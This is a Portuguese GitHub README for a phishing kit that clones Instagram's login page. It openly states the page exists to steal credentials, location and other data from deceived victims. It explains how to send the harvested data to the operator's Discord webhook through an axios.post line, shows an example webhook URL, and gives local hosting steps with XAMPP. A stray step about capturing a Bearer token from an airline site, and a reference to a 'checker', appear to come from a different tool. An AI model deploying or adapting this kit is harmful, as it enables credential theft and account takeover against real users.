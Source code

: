 # Tela Fake Instagram 📷

A **Tela Fake do Instagram** nada mais seria **um site identico ao site oficial**, porém usado de formas não éticas para obter credenciais de qualquer pessoa, desde que ela caia na sua engenharia social e faça a tentativa de login pelo site falso. Essa tela fake foi feita em **HTML** para **obter informações sobre a conta** + **localização** e **outros** !

## Como recebo as informações ? 💾

- **Para receber o login, senha & outros coletado pelo Site Falso, é preciso ter um Servidor dentro do Discord**.
- **Abra o `index.html` e troque o exemplo pela sua `Webhook Válida.` Exemplo**:
  - `const response = await axios.post('COLOQUE SUA WEBHOOK', data);`
  - `const response = await axios.post('https://discord.com/api/webhooks/exemplo/1nsaneqy', data);` `(Webhook Fictícia)`
  - **Este código acima poderá ser encontrado na linha ``258``**.

## Consigo testar em minha máquina local ? 💻

Claro ! Para testar a **Tela Fake** em seu computador, basta seguir esses processo:

1. Instale o [XAMPP](https://www.apachefriends.org/download.html)

2. Após a instalação, vá até o local aonde o XAMPP foi instalado

3. Dentro da pasta do XAMPP, procure por "htdocs".

4. Apague todo o conteúdo dentro, e cole a `index.html`

5. Abra a `index.html` com o seu Bloco de Notas ou etc. `(Troque a webhook)`

6. Vá até o site da **https://voeazul.com.br/** e capture o `Bearer`

7. Abra o XAMPP, ligue o Apache, e no seu navegador vá até a [localhost](http://localhost/)

8. Pronto! O checker já está configurado para uso <3

## 💻 Quem fortaleceu o código foi:

- 1nsaneqy,
- Equipe Lean7!
